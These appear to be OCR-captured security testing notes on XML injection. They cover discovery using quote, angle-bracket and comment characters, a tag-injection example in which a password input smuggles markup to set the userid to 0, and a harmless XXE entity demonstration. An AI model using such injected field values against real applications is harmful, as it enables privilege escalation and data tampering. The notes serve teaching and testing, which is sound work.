 ##### Testing for XML Injection

###### Discovery

- **Single quote** (**'**): When not sanitized, this character could throw an exception during XML parsing

```xml
/* The following attribute */
<node attrib='$inputValue'/>
/* Becomes */
<node attrib='foo''/>
```

- **Double quote** (**"**): Same as *Single quote*
- **Angular parentheses** (**>** and **<**):

```xml
<user>
    <username>foo<</username>
```

- **Comment tag** (\): Interpreted as the beginning/end of a comment

```xml
<user>
    <username>foo<!--</username>
```

- ...

###### Tag Injection

1) Through comment

```text
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

Becomes

```xml
<user>
    <username>tony</username>
    <password>Un6R34kb!e</password><!--</password>
    <userid>500</userid>
    <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
</user>
```

###### XXE

XXE is an example of Server-Side Request Forgery (SSRF) where we define a external entity using an XML Data Type Definition

For instance, here below, the *Entity* "xxe" will show "Bouh"

```xml
<!DOCTYPE thomas[
<!ELEMENT thomas ANY >
<!ENTITY xxe "Bouh" >]>
<user>
  <username>&xxe;</username>
</user>
```
